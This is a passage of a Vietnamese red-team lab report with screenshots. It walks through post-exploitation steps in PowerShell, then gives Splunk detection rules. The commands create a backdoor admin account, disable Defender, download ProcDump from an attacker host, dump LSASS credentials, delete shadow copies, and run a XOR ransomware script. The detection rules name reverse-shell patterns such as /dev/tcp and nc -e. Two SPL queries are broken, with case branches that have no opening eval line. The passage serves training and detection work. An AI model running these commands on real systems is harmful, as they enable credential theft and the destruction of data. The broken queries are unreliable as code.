
*Hình 4.19: Xác nhận danh tính máy chủ Windows Server (WIN-I370HR7VSPS và IP 192.168.100.20).*

*Hình 4.20: Kiểm tra đặc quyền tài khoản và quyền hạn thành viên Administrators.*


*Hình 4.27: Tạo tài khoản ngầm backdoor thêm vào Administrators từ slide bài giảng.*

2. **Thực thi trên Remote PowerShell**:
```powershell
net user backdoor P@ssw0rd123! /add
net localgroup Administrators backdoor /add
```


*Hình 4.21: Tạo tài khoản ngầm backdoor và thêm vào nhóm quản trị viên cục bộ.*

---

### Bước 9: Tắt cơ chế phòng thủ và Trích xuất bộ nhớ LSASS (Defense Evasion và Cred Dump)


*Hình 4.29: Tạo Windows Service trích xuất bộ nhớ tiến trình LSASS từ slide bài giảng.*

- **MITRE ATT&CK**: `T1562.001` (Impair Defenses: Disable or Modify Tools), `T1003.001` (OS Credential Dumping: LSASS Memory)
- **Mục tiêu**: Tắt tính năng Realtime Protection của Windows Defender và tạo Windows Service để chạy `procdump64.exe` trích xuất `lsass.exe` dưới quyền `NT AUTHORITY\SYSTEM`.

```powershell
# 1. Tắt cơ chế quét thời gian thực của Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# 2. Tải ProcDump từ máy chủ Kali
Invoke-WebRequest -Uri "http://192.168.50.100:8000/procdump64.exe" -OutFile "C:\Windows\Temp\procdump64.exe"

# 3. Tạo và kích hoạt Service dump LSASS
sc.exe create DumpService binPath= "cmd /c C:\Windows\Temp\procdump64.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp" type= own
sc.exe start DumpService
```


*Hình 4.22: Vô hiệu hóa Microsoft Defender và tạo service trích xuất bộ nhớ tiến trình LSASS.*

---

### Bước 10: Phá hủy Volume Shadow Copies và Mô phỏng mã hóa tống tiền (Impact)


*Hình 4.31: Kỹ thuật vô hiệu hóa khả năng phục hồi dữ liệu vssadmin delete shadows từ slide bài giảng.*


*Hình 4.32: Tấn công mã hóa tống tiền hàng loạt file sang phần mở rộng .locked từ slide bài giảng.*

- **MITRE ATT&CK**: `T1490` (Inhibit System Recovery), `T1486` (Data Encrypted for Impact)
- **Mục tiêu**: Xóa toàn bộ điểm khôi phục hệ thống (VSS) nhằm triệt tiêu khả năng cứu dữ liệu, sau đó thực thi script PowerShell mã hóa toàn bộ file trong `C:\Users\Public\LabData` bằng thuật toán XOR byte và đổi phần mở rộng thành `.locked`.


*Hình 4.23: Khởi tạo thư mục C:\Users\Public\LabData chứa 30 tệp tin tài chính nội bộ phục vụ mô phỏng mã hóa.*


*Hình 4.24: Trạng thái nguyên vẹn của 30 tệp tin dữ liệu trước khi mã hóa tống tiền.*

```powershell
# 1. Xóa sạch Volume Shadow Copies
vssadmin delete shadows /all /quiet

# 2. Thực thi mã hóa tống tiền mô phỏng (XOR Byte Encryption)
$key = 0xAB
Get-ChildItem -Path "C:\Users\Public\LabData" -Recurse -File | ForEach-Object {
    $bytes = [System.IO.File]::ReadAllBytes($_.FullName)
    $enc = [byte[]]($bytes | ForEach-Object { $_ -bxor $key })
    [System.IO.File]::WriteAllBytes("$($_.FullName).locked", $enc)
    Remove-Item -Path $_.FullName -Force
}
```


*Hình 4.25: Toàn bộ tệp tin trong thư mục dữ liệu bị mã hóa và đổi phần mở rộng thành .locked.*

---

## 5. Bộ Quy Tắc Phát Hiện Splunk SIEM Chuẩn Hóa (16 Production Detection Rules)

!!! tip "Chuẩn hóa Splunk SPL kết hợp Kiểm chứng Thực tế trên Splunk Lab"
    Toàn bộ 16 luật phát hiện dưới đây được thiết kế và kiểm chứng thực nghiệm trên cụm Splunk Enterprise phân tích hơn 9.6 triệu sự kiện thực tế trong đợt diễn tập tháng 07/2026. Mỗi luật tuân thủ đường ống phân tích chuẩn (Pipeline Detection), tích hợp cơ chế loại trừ nhiễu (Whitelisting), phân tầng rủi ro (Risk Scoring) và cung cấp câu lệnh điều tra sâu (Drill-down SPL) cho L2/L3 SOC Analyst.


---

### Rule 00: Web Application Scanning / Reconnaissance (T1595.003)


*Hình 5.0: Kết quả Splunk SPL phát hiện quét trinh sát ứng dụng web bằng công cụ tự động (Gobuster, Feroxbuster, Nikto).*

> **Không cần Suricata/IDS** — phát hiện qua Apache access log pattern:  
> gobuster UA, 100% error rate, >500 unique paths/30s  
> **Verified:** 514,812 req từ 192.168.50.100 (gobuster 454K + feroxbuster 30K + behavioral 30K)

```spl
index=web_logs sourcetype=access_combined
| eval scanner_ua=case(
    match(useragent,"(?i)(gobuster|feroxbuster|nikto|masscan|sqlmap|dirb|dirbuster|wfuzz|ffuf|nuclei|zap|burp)"),"known_scanner",
    match(useragent,"(?i)(nmap|zgrab|shodan|censys|curl/[0-9]+\.[0-9]+\.[0-9]+$)"),"probe_tool",
    1=1,null())
| bin _time span=30s
| stats count as reqs,
        dc(uri_path) as unique_paths,
        sum(eval(if(status>=400,1,0))) as errors,
        values(useragent) as agents,
        max(scanner_ua) as ua_type
  by clientip, _time
| eval error_rate=round(errors/reqs*100,1)
| eval path_rate=round(unique_paths/reqs*100,1)
| eval is_scanner=case(
    isnotnull(ua_type), 1,
    reqs >= 1000 AND error_rate >= 90, 1,
    unique_paths >= 500 AND path_rate >= 95, 1,
    1=1, 0)
| where is_scanner=1
    ua_type="known_scanner" AND reqs >= 10000, 70,
    ua_type="known_scanner", 55,
    ua_type="probe_tool", 50,
    error_rate >= 98, 60,
    1=1, 35)
| eval scan_type=case(
    isnotnull(ua_type), ua_type + " (" + tostring(reqs) + " req)",
    error_rate>=98, "blind_fuzzing (" + tostring(reqs) + " req)",
    1=1, "behavioral_scan (" + tostring(reqs) + " req)")
| convert ctime(_time)
| table _time clientip scan_type unique_paths error_rate
| sort -reqs
```

**ES Throttle:** `window=3600s group=clientip`

**Drill-down (sau khi alert):**
```spl
index=web_logs clientip=$clientip$ earliest=$_time$ latest=+5m
| stats count by useragent uri_path status
| sort -count | head 20
```

**FP Mitigation:**
```spl
NOT match(useragent,"(?i)(bot|crawl|spider|googlebot|bingbot)")
NOT clientip IN ("10.0.0.0/8","ci_server_ip")
```

---

---

### Rule 01: Web File Upload Attack (T1190)


*Hình 5.1: Kết quả Splunk SPL phát hiện tải lên tệp web shell qua phương thức HTTP POST.*

```spl
index=web_logs sourcetype=access_combined method=POST status=200
  uri_path=*upload* NOT (uri_path=*login* OR uri_path=*api/v*)
| rex field=uri_path "(?<script_ext>\.(php|php3|phtml|asp|aspx|jsp|cgi|pl))(\?|$)"
| eval has_script=if(isnotnull(script_ext), 1, 0)
| bin _time span=10m
| stats count as upload_count, max(has_script) as script_detected,
        earliest(_time) as first_seen, latest(_time) as last_seen,
        values(uri_path) as paths
  by clientip, host, _time
| convert ctime(first_seen) ctime(last_seen)
| table _time clientip host upload_count paths first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=clientip`

**Drill-down:**
```spl
index=web_logs method=POST clientip=$clientip$ earliest=$first_seen$ latest=$last_seen$
| table _time uri_path uri_query status bytes useragent
| sort -_time
```

---

---

### Rule 02: Web Shell RCE Command Execution (T1505.003)


*Hình 5.2: Kết quả Splunk SPL phát hiện thực thi lệnh hệ điều hành từ xa (RCE) qua Web Shell.*

> **Lưu ý:** Nếu field `cmd` rỗng (thiếu field extraction), thêm dòng đầu:  
> `| rex field=uri_query "cmd=(?<cmd>[^&]+)"`

```spl
index=web_logs sourcetype=access_combined method=GET status=200 file=*.php
| rex field=uri_query "cmd=(?<cmd>[^&]+)"
| where isnotnull(cmd) AND len(cmd) > 0
| eval rce_type=case(
    match(cmd,"(?i)(/dev/tcp/|bash\s+-i|sh\s+-i|nc\s+-e|python.+-c.+socket)"),"revshell",
    match(cmd,"(?i)(wget|curl)\s+http"),"staged_download",
    match(cmd,"(?i)(chmod|chown|rm\s+-rf|passwd|shadow|sudoers|/etc/)"),"filesystem_tamper",
    match(cmd,"(?i)^(id|whoami|uname|hostname|pwd|ifconfig|ipconfig|netstat|ps\s+aux|ls\s+-la)$"),"recon",
    match(cmd,"(?i)^(cat|type)\s+.*(config|passwd|shadow|\.php|\.env|\.conf)$"),"file_read",
    1=1,"other")
| where rce_type != "other"
| bin _time span=5m
| stats count as attempts, values(cmd) as commands, dc(rce_type) as cmd_variety,
        earliest(_time) as first_seen, latest(_time) as last_seen
  by clientip, uri_path, rce_type, _time
    rce_type="revshell", 80,
    rce_type="staged_download", 65,
    rce_type="filesystem_tamper", 60,
    rce_type="file_read", 50,
    rce_type="recon", 35,
    1=1, 20)
| convert ctime(first_seen) ctime(last_seen)
| table _time clientip uri_path rce_type attempts first_seen last_seen
| sort -_time
```

**ES Throttle:** `window=3600s group=clientip`

---

---

### Rule 03: Reverse Shell from Web Server (T1059.004)

